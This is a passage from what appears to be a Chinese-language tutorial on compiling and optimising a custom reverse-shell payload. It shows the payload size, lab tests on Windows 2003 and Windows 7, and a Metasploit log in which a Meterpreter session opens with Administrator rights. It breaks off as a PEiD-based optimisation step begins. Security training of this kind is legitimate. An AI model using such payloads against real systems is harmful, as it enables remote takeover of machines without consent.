 **再次编译：**  
![](../do/media/357710f6faabc6604bbaa35592ce79db.jpg)

**payload大小如下：**  
4608字节  
![](../do/media/bdd9366a5d3006aaaab48cf97908022b.jpg)

### 第一次靶机测试：分别测试Windows 2003，Windws 7，reverse OK。

![](../do/media/542ba22b5fc53ca130875f92d4bef49e.jpg)

```code
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 4 opened (192.168.1.5:53 ‐> 192.168.1.119:3887) at 2019‐01‐27 14:30:27 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > 
```

### 第二次优化payload：

载入PEID  
